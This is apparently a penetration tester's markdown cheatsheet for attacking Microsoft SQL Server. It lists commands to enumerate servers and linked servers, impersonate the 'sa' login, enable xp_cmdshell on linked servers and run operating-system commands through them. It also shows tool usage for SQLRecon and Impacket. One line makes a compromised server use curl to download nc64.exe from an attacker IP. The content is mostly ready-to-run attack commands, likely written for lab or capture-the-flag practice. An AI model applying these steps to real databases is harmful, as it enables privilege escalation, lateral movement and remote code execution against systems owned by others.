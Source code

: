 # MSSQL Cheatsheet

PE can use `PowerUpSQL.ps1` in post exp.

## list sqlserver

```powershell
PS C:\mane> sqlcmd -L

Servers:
    ;UID:Login ID=?;PWD:Password=?;Trusted_Connection:Use Integrated Security=?;*APP:AppName=?;*WSID:WorkStation ID=?;


# OR
PS C:\mane> Get-SqlInstance
```

## Query

```powershell
PS C:\mane> sqlcmd -q "SELECT @@version"

# login current user
PS C:\mane> sqlcmd -S

# user and password
PS C:\mane> sqlcmd -S .\SQLEXPRESS -U xxx -P xxx
``

```sql
# List Databases
SELECT name FROM master..sysdatabases;

# List Tables
SELECT name FROM master..sysobjects WHERE xtype = 'U';
```

## Check server link

```
EXEC sp_linkedservers;

select * from openquery("WEB\CLIENTS", 'SELECT name FROM master..sysdatabases;')
```

With `PowerUPSql.ps1`, [CheatSheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet).

```
Get-SQLInstanceLocal -Verbose
```

```
osql -E -S "localhost\SQLEXPRESS" -Q "select * from master..sysservers" 
```


## Connect Server link

```
EXECUTE AS LOGIN  = 'sa';

EXECUTE ('SELECT @@servername;') at [SQLSERVER2] ;
```


## Enable xpshell to linking server

```
EXECUTE AS LOGIN  = 'sa';
EXECUTE ('EXEC sp_configure ''Show Advanced Options'', 1') at [SQLSERVER2] ;
EXECUTE ('RECONFIGURE') at [SQLSERVER2] ;
EXECUTE ('EXEC sp_configure ''xp_cmdshell'', 1') at [SQLSERVER2];
EXECUTE ('RECONFIGURE') at [SQLSERVER2] ;
EXECUTE ('EXEC master..xp_cmdshell ''whoami''') at [SQLSERVER2] ;
```

## Using SQLRecon Tools with link

Sometimes SQLRecon.exe have some problem with code execute.

```
.\SQLRecon.exe /a:WinToken /h:127.0.0.1 /l:xxx.xxx.local /m:lXpCmd /c:'command'

```

## osql enable cmdshell with link

```
osql -E -S "<LOCAL_HOSTNAME>" -Q "EXECUTE('sp_configure''xp_cmdshell'',1;RECONFIGURE;') AT [<remote.manesec.local>]"

osql -E -S "<LOCAL_HOSTNAME>" -Q "EXECUTE('xp_cmdshell whoami') AT [<remote.manesec.local>];"
osql -E -S "<LOCAL_HOSTNAME>" -Q "EXECUTE('xp_cmdshell ''mkdir C:\mane''') AT [<remote.manesec.local>];"

```


## Using link and impersonal sa to enable xp_cmd

```
DECLARE @sql NVARCHAR(MAX) = N'EXECUTE AS LOGIN = ''sa''; EXEC sp_configure ''show advanced options'', 1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE; EXEC xp_cmdshell ''cmd /c curl http://10.10.16.25/nc64.exe -o C:\programdata\nc64.exe'';'; EXEC (@sql) AT "PRIMARY";

```


## Impackets

``` bash
select @@version;

enum_logins

# Recon
EXECUTE ('select @@servername;') at [COMPATIBILITY\POO_CONFIG];

EXECUTE ('select suser_name();') at [COMPATIBILITY\POO_CONFIG];

# execute as link
EXECUTE ('SELECT name FROM master..syslogins WHERE sysadmin = ''1'';') at [COMPATIBILITY\POO_CONFIG];

# execute as link on link server
EXEC ('EXEC (''select suser_name();'') at [COMPATIBILITY\POO_PUBLIC]') at [COMPATIBILITY\POO_CONFIG];

# query permission
EXECUTE ('SELECT entity_name, permission_name FROM fn_my_permissions(NULL, ''SERVER'');') at [COMPATIBILITY\POO_CONFIG]

```